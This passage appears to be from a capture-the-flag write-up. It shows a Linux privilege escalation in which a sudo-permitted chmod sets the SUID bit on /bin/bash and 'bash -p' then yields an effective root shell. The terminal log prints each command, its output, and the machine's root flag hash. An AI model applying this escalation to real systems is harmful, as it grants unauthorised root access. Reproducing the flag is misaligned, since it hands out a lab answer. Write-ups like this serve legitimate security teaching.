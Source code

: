 Based on the output of "sudo -l", there are many options to escalate to root.

We chose to simply set the SUID bit on the /bin/bash binary. Once that was done, we simply run it, and we can grab the root flag.

```
bash-3.2$ which bash
which bash
/bin/bash
bash-3.2$ ls -la /bin/bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash
bash-3.2$ sudo /bin/chmod u+s /bin/bash
sudo /bin/chmod u+s /bin/bash
bash-3.2$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash
bash-3.2$ /bin/bash -p
/bin/bash -p
bash-3.2# id
id
uid=100(asterisk) gid=101(asterisk) euid=0(root)
bash-3.2# cd /root
cd /root
bash-3.2# ls
ls
anaconda-ks.cfg            install.log.syslog  webmin-1.570-1.noarch.rpm
elastix-pr-2.2-1.i386.rpm  postnochroot
install.log                root.txt
bash-3.2# cat root.txt
cat root.txt
3d8751c2a8b394c7b8c6a29c72f891e9
bash-3.2# 
```

## Resources


